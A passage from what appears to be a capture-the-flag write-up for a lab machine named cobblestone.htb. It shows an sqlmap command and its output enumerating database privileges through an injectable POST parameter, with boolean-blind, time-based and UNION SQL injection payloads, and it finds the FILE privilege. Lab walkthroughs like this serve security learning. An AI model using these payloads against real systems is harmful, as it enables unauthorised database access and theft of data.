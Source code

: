 We continue to enumrate the db privilege.
```bash
sqlmap -r req --batch --privilege
```

```sql
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.9.9.4#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:22:39 /2025-09-28/

[13:22:39] [INFO] parsing HTTP request from 'req'
[13:22:39] [INFO] resuming back-end DBMS 'mysql'
[13:22:39] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=4'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=http://vote.cobblestone.htb/index.php' AND 5926=5926 AND 'GBwC'='GBwC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: url=http://vote.cobblestone.htb/index.php' AND SLEEP(5) AND 'CmvC'='CmvC

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-6395' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b626271,0x5050685272454b637067796d43666d72656a42795669764e784141746e64484d527351556a745651,0x7178627171),NULL-- -
---
[13:22:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:22:44] [INFO] fetching database users privileges
database management system users privileges:
[*] 'voteuser'@'localhost' [1]:
    privilege: FILE

[13:22:45] [INFO] fetched data logged to text files under '/home/rouxtronics/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 13:22:45 /2025-09-28/
```
